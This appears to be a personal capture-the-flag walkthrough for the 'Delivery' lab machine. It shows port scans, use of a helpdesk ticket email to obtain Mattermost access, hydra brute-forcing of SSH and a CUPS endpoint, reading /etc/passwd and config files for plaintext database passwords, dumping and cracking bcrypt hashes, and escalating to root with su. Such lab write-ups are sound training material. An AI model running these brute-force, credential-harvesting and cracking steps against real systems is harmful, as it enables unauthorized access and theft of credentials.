







## Port Scan
1. All TCP port scan
```
sudo nmap -Pn 10.129.193.78 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap         
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-02 18:28 EST
Nmap scan report for 10.129.193.78
Host is up (0.028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 4.01 seconds
```
2. UDP port scan
```
sudo nmap -Pn 10.129.193.78 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
All 65535 scanned ports on 10.129.193.78 are in ignored states.
```
3. Script and version scan
```
sudo nmap -Pn 10.129.193.78 -sCV -p22,80,8065 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
# Nmap 7.95 scan initiated Mon Feb  2 18:31:25 2026 as: /usr/lib/nmap/nmap -Pn -sCV -p22,80,8065 --min-rate 20000 -oN nmap/scriptVersionScan.nmap 10.129.193.78
Nmap scan report for 10.129.193.78
Host is up (0.024s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  http    Golang net/http server
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Mon, 02 Feb 2026 23:00:35 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 68twyo9fpbdjbyy6tatan44tqr
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Mon, 02 Feb 2026 23:31:50 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
<SNIP>
```
4. Add this to `/etc/hosts`
```
10.129.193.78  helpdesk.delivery.htb delivery.htb
```
## Web Application Research
1. There are three web servers: `http://helpdesk.delivery.htb/`, `http://delivery.htb/` and `http://delivery.htb:8086/`
2. Interesting information:
	
3. `http://helpdesk.delivery.htb/` is using osTicket
	
4. We can open a ticket like this.
	
	- I used the email address `a@a.com`
5. This is the email we got
	
6. Sign up for a new account at mattermost. Oops forgot to screenshot
	
7. The email will be sent to the support ticket system
	
	- Now, we are verified and can log in.
8. When we log in, we see this
	
	- OSTicket creds: `maildeliverer:Youve_G0t_Mail!`
	- Use hashcat rules to permutate `PleaseSubscribe!`
9. We can use `maildeliverer:Youve_G0t_Mail!` to sign as an agent.
## SSH
1. Let's create permutations of the password `PleaseSubscribe!`
```
echo 'PleaseSubscribe!' > test.txt
hashcat -r /usr/share/hashcat/rules/rockyou-30000.rule test.txt --stdout > possiblePW.txt
```
- I also tried best64 and leetspeek. Did not work
2. Let's try to brute force SSH
```
echo "bob\nmaildeliverer" > username.list
hydra -L username.list -P possiblePW.txt ssh://delivery.htb
```
3. Ok crap. I got stuck. Apparently, we can log in with `maildeliverer:Youve_G0t_Mail!`. Bruhhh. I learnt to always check access with old creds.
```
ssh maildeliverer@10.129.193.78
```
## Shell as maildeliverer
1. Sudo
```
sudo -l
```
Output:
```
Sorry, user maildeliverer may not run sudo on Delivery.
```
2. OS info
```
uname -r
4.19.0-13-amd64
```

```
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
3. Listening ports
```
ss -tlnp
State           Recv-Q          Send-Q                   Local Address:Port                     Peer Address:Port          
LISTEN          0               80                           127.0.0.1:3306                          0.0.0.0:*             
LISTEN          0               128                            0.0.0.0:80                            0.0.0.0:*             
LISTEN          0               128                            0.0.0.0:22                            0.0.0.0:*             
LISTEN          0               5                            127.0.0.1:631                           0.0.0.0:*             
LISTEN          0               5                            127.0.0.1:1025                          0.0.0.0:*             
LISTEN          0               128                               [::]:80                               [::]:*             
LISTEN          0               128                               [::]:22                               [::]:*             
LISTEN          0               5                                [::1]:631                              [::]:*             
LISTEN          0               128                                  *:8065                                *:* 
```
- `631`: CUP web server
- `1025`: SMTP
4. Ps Aux output
```
ps aux
```
Output:
```
<SNIP>
root       476  0.0  0.0   5612  1660 tty1     Ss+  18:00   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root       479  0.0  0.2 182936 10668 ?        Ssl  18:00   0:01 /usr/sbin/cups-browsed
root       488  0.0  0.1  15852  7148 ?        Ss   18:00   0:01 /usr/sbin/sshd -D
root       509  0.0  0.0  67848  1808 ?        Ss   18:00   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master
www-data   513  0.0  0.1  69032  7144 ?        S    18:00   0:00 nginx: worker process
www-data   514  0.0  0.1  68468  5924 ?        S    18:00   0:00 nginx: worker process
www-data   571  0.0  1.0 269712 41360 ?        S    18:00   0:01 php-fpm: pool www
www-data   574  0.0  1.1 273764 45684 ?        S    18:00   0:01 php-fpm: pool www
mysql      604  0.0  2.9 1721408 120216 ?      Ssl  18:00   0:07 /usr/sbin/mysqld
root       637  0.0  0.2  29076  8200 ?        Ss   18:00   0:00 /usr/sbin/cupsd -l
lp         642  0.0  0.1  19120  6380 ?        S    18:00   0:00 /usr/lib/cups/notifier/dbus dbus://
matterm+   719  0.1  3.5 1575864 142088 ?      Ssl  18:00   0:11 /opt/mattermost/bin/mattermost
root      1033  0.0  0.4  28608 17448 ?        S    18:01   0:00 python3 /root/py-smtp.py
root      1139  0.0  0.0      0     0 ?        I    18:15   0:00 [kworker/1:2-cgroup_destroy]
matterm+  1217  0.0  0.4 1235572 19940 ?       Sl   18:31   0:00 plugins/com.mattermost.plugin-channel-export/server/dist/p
matterm+  1224  0.0  0.5 1239060 22876 ?       Sl   18:31   0:00 plugins/com.mattermost.nps/server/dist/plugin-linux-amd64
root      4638  0.0  0.0      0     0 ?        I    19:44   0:01 [kworker/0:0-cgroup_destroy]
root      6687  0.0  0.2  16928  8308 ?        Ss   20:08   0:00 sshd: maildeliverer [priv]
root      6690  0.0  0.0      0     0 ?        I    20:08   0:00 [kworker/0:1-events]
maildel+  6691  0.0  0.2  21148  9104 ?        Ss   20:08   0:00 /lib/systemd/systemd --user
maildel+  6692  0.0  0.0 170656  2400 ?        S    20:08   0:00 (sd-pam)
maildel+  6706  0.0  0.1  16928  5048 ?        R    20:08   0:00 sshd: maildeliverer@pts/0
```
- Interesting
5. A web server is running on port 631
```
curl http://127.0.0.1:631
```
Output:
```        
<!DOCTYPE HTML>                                           
<html>                                                               
    <title>Home - CUPS 2.2.10</title>
```
6. SMTP running on port 1025
```
curl http://127.0.0.1:1025
```
Output:
```
220 Delivery Python SMTP proxy version 0.3
500 Error: command "GET" not recognized
500 Error: command "HOST:" not recognized
```
7. Local Port Forward to get a better look
```
ssh -L 6316:127.0.0.1:631 maildeliverer@10.129.193.78
```
8. `/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:116::/var/lib/saned:/usr/sbin/nologin
colord:x:108:117:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:110:118:MySQL Server,,,:/nonexistent:/bin/false
mattermost:x:998:998::/home/mattermost:/bin/sh
```
9. We can get MySQL database credentials in `/var/www/osticket/upload/include/ost-config.php`
```
# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');
```
10. List binaries with SUID and GUID bits
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
Output:
```
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
```
11. Interesting Output of LinPeas
```
  location ~ \.php$ {
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    include fastcgi_params;
    fastcgi_param PATH_INFO $path_info;
    fastcgi_pass unix:/var/run/php/php7.3-fpm.sock;
  }
```

```
══╣ Polkit Binary
Pkexec binary found at: /usr/bin/pkexec
Pkexec binary has SUID bit set!
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
pkexec version 0.105 
```
12. Out of pure desperation, I just fuzzed the `http-get://127.0.0.1:6316/admin/log/access_log` endpoint as it needed authorization
```
hydra -l root -P hydra/newpasswdTries2.txt 127.0.0.1 -s 6316 http-get /admin/log/access_log -t 32
```
Output:
```
[DATA] attacking http-get://127.0.0.1:6316/admin/log/access_log
[6316][http-get] host: 127.0.0.1   login: root   password: PleaseSubscribe!21
```
- Interesting
13. From the Mattermost configuration file, we get MySQL credentials
```json
"SqlSettings": {
        "DriverName": "mysql", 
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30
s\u0026writeTimeout=30s",
		"AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
```
## MySQL
1. To log into the database,
```
mysql -u ost_user -D osticket -p
```
2. Doesn't seem to contain any new info
3. To log into the database as `mmuser`,
```
mysql -u mmuser -p -D mattermost
```
We can get the password hashes of root here
```
MariaDB [mattermost]> SELECT username, password FROM Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| test                             | $2a$10$uuXX9lxD9rHez.QoFZBB0.tNRa4ldM4qjNSgqyRHL.a6pwfQkJ/8. |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
```
4. Output of cracking
```
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```
5. Bruh, after some hints, I realised I just need to change user and I can escalate my privileges. The password is `PleaseSubscribe!21`
```
su
Password: 
root@Delivery:/opt/mattermost/config# 
```
- I thought that I need to `sudo` to change user, but that is only if we have `sudo` privileges, and do not know the password of root!
6. Get the flag in `/root`

